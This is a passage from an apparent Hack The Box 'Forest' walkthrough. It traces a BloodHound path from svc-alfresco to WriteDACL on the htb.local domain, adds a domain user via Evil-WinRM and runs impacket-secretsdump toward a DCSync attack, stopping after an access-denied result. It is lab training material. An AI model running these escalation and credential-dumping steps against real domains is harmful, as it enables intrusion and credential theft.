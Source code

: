 ![](assets/img/htb/forest/path1.png)

to find a more descriptive way I filter by the user svc-alfresco in the search bar (to add the skull do right click > mark user as owned)

![](assets/img/htb/forest/search1.png)

to view a new graph I click on the svc-alfresco node and in the node info tab I click on reachable high value targets

![](assets/img/htb/forest/node1.png)

I find that this user is part of an account operators group
![](assets/img/htb/forest/path2.png)

clicking on this node and viewing the high reachable targets I find another interesting path, that this user can perform a "writedacl" on the htb.local domain

![](assets/img/htb/forest/node2.png)

I click on help to view more information about this privilege

![](assets/img/htb/forest/info.png)

> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL
> With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

on the windows abuse tab it shows how to perform this dcsync attack step by step 

![](assets/img/htb/forest/info1.png)
### write dacl attack
to perform this attack first I'll create a new user on the domain 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user sentreysec password123 /add /domain
The command completed successfully.
```

first if I try secretsdump with the user I created, this gives an access denied error but when the dcsync attack is performed I will be able to see the hashes from another users

```bash
$ impacket-secretsdump htb.local/sentreysec:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```
